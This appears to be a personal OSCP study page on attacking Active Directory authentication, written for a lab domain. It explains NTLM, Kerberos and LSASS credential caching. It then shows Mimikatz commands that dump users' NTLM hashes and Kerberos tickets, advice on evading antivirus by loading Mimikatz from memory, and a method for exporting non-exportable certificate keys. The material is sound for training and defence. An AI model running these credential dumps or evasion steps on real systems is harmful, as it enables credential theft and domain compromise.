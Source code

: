```yaml
---
title: Attacking Active Directory Authentication
date: 2024-04-15 12:37:00 -0600
categories: [OSCP]
tags: [oscp, pen200, offsec, certs]     # TAG names should always be lowercase
---
```

*The Attacking Active Directory Authentication tools and tactics reviewed here are presented specifically in preparation for the OSCP exam per course suggestions and are by no means replacements for the OSCP training course, nor comprehensive guides for this step in the Kill Chain.*

# Attacking Active Directory Authentication

## Understanding Active Directory Authentication

### NTLM Authentication

NTLM authentication is used when a client authenticates to a server by IP address (instead of by hostname), or if the user attempts to authenticate to a hostname that is not registered on the Active Directory-integrated DNS server. Likewise, third-party applications may choose to use NTLM authentication instead of Kerberos.

There are seven steps in NTLM authentication.

![image](https://github.com/ryennewhite/ryennewhite.github.io/assets/112822039/1335acc0-fee5-40bf-aef4-ce96f87dd531)

### Kerberos Authentication

Kerberos has been used as Microsoft's primary authentication mechanism since Windows Server 2003. While NTLM authentication works via a challenge-and-response paradigm, Windows-based Kerberos authentication uses a ticket system.

A key difference between these two protocols (based on the underlying systems) is that with NTLM authentication, the client starts the authentication process with the application server itself. On the other hand, Kerberos client authentication involves the use of a domain controller in the role of a Key Distribution Center (KDC). The client starts the authentication process with the KDC and not the application server. A KDC service runs on each domain controller and is responsible for session tickets and temporary session keys to users and computers.

![image](https://github.com/ryennewhite/ryennewhite.github.io/assets/112822039/0187d6a5-c558-4318-8c6b-0d5d0619340f)

### Cached AD Credentials

Since 

Microsoft's implementation of Kerberos makes use of single sign-on, password hashes must be stored somewhere in order to renew a TGT request. In modern versions of Windows, these hashes are stored in the Local Security Authority Subsystem Service (LSASS)1 memory space.

Since the LSASS process is part of the operating system and runs as SYSTEM, we need SYSTEM (or local administrator) permissions to gain access to the hashes stored on a target. 

NOTE: In the following example, we will run Mimikatz as a standalone application. However, due to the mainstream popularity of Mimikatz and well-known detection signatures, consider avoiding using it as a standalone application and use methods discussed in the Antivirus Evasion Module instead. For example, execute Mimikatz directly from memory using an [injector like PowerShell](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1), or use a built-in tool like [Task Manager to dump the entire LSASS process memory](https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/), [move the dumped data to a helper machine, and then load the data into Mimikatz](http://www.fuzzysecurity.com/tutorials/18.html).

We'll use the jeff account we have the password for.

```console
kali$ xfreerdp /cert-ignore /u:jeff /d:corp.com /p:HenchmanPutridBonbon11 /v:192.168.154.75

// start PS as Administrator

PS> cd C:\Tools

PS> .\mimikatz.exe

PS> privilege::debug

// dump creds of all logged on users

PS> sekurlsa::logonpasswords
* Username : jeff
         * Domain   : CORP
         * NTLM     : 2688c6d2af5e9c7ddb268899123744ea
         * SHA1     : f57d987a25f39a2887d158e8d5ac41bc8971352f
* Username : dave
         * Domain   : CORP
         * NTLM     : 08d7a47a6f9f66b97b1bae4178747494
         * SHA1     : a0c2285bfad20cc614e2d361d6246579843557cd
```

Use these hashes with the Password Attacks section attacks.

A different approach and use of Mimikatz is to exploit Kerberos authentication by abusing TGT and service tickets.

```console
// list contents of smb share on WEB04 - this creates and caches a service ticket!

PS> dir \\web04.corp.com\backup

// NOW use mimikatz again

PS> sekurlsa::tickets
Authentication Id : 0 ; 656588 (00000000:000a04cc)
Session           : RemoteInteractive from 2
User Name         : jeff
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/13/2022 2:43:31 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1105

         * Username : jeff
         * Domain   : CORP.COM
         * Password : (null)

        Group 0 - Ticket Granting Service
         [00000000]
           Start/End/MaxRenew: 9/13/2022 2:59:47 AM ; 9/13/2022 12:43:56 PM ; 9/20/2022 2:43:56 AM
           Service Name (02) : cifs ; web04.corp.com ; @ CORP.COM
           Target Name  (02) : cifs ; web04.corp.com ; @ CORP.COM
           Client Name  (01) : jeff ; @ CORP.COM
           Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             38dba17553c8a894c79042fe7265a00e36e7370b99505b8da326ff9b12aaf9c7
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 3        [...]
         [00000001]
           Start/End/MaxRenew: 9/13/2022 2:43:56 AM ; 9/13/2022 12:43:56 PM ; 9/20/2022 2:43:56 AM
           Service Name (02) : LDAP ; DC1.corp.com ; corp.com ; @ CORP.COM
           Target Name  (02) : LDAP ; DC1.corp.com ; corp.com ; @ CORP.COM
           Client Name  (01) : jeff ; @ CORP.COM ( CORP.COM )
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             c44762f3b4755f351269f6f98a35c06115a53692df268dead22bc9f06b6b0ce5
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 3        [...]

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 9/13/2022 2:43:56 AM ; 9/13/2022 12:43:56 PM ; 9/20/2022 2:43:56 AM
           Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Target Name  (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Client Name  (01) : jeff ; @ CORP.COM ( CORP.COM )
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             bf25fbd514710a98abaccdf026b5ad14730dd2a170bca9ded7db3fd3b853892a
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
...
```

The output shows both a TGT and a TGS. Stealing a TGS would allow us to access only particular resources associated with those tickets. Alternatively, armed with a TGT, we could request a TGS for specific resources we want to target within the domain.
If a server is installed as a Certification Authority (CA),14 it can issue and revoke digital certificates. We could issue certificates for web servers to use HTTPS or to authenticate users based on certificates from the CA via Smart Cards.15

These certificates may be marked as having a non-exportable private key16 for security reasons. If so, a private key associated with a certificate cannot be exported even with administrative privileges. However, there are various methods to export the certificate with the private key.

We can rely again on Mimikatz to accomplish this. The crypto17 module contains the capability to either patch the CryptoAPI18 function with crypto::capi19 or KeyIso20 service with crypto::cng,21 making non-exportable keys exportable.

## Performing Attacks on Active Directory Authentication

